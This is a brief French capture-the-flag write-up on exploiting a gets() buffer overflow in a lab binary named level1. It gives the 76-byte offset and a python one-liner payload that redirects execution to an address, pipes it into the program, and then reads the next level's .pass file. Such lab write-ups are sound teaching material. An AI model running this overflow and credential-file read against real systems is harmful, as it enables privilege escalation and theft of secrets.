 Comment trouver le flag1

On a encore un programme quand on le disassemble on voit que y'a une fonction gets et que le programme s'arrete

info function

On voit que le main a une function gets appelée ecrire dans ce buffer (potentiel overflow)

on voit que la function RUN n'est pas execute dans le main

donc on va essayer d'overflow le gets grace a un buffer overflow generator https://wiremask.eu/tools/buffer-overflow-pattern-generator/
l'overflow a lieu a partir de 76

on va donc faire un programme python on quite gdb

python -c "print 76 * 'a' + '\x08\x04\x84\x44'[::-1]" > /tmp/overflow

on va ouvrir un STDIN avec un cat et faire executer notre overflow 

cat /tmp/overflow - | ./level1

L'overflow a marcher puisque grace a whoami on voit qu'on est le level2

cat /home/user/level2/.pass on a notre flag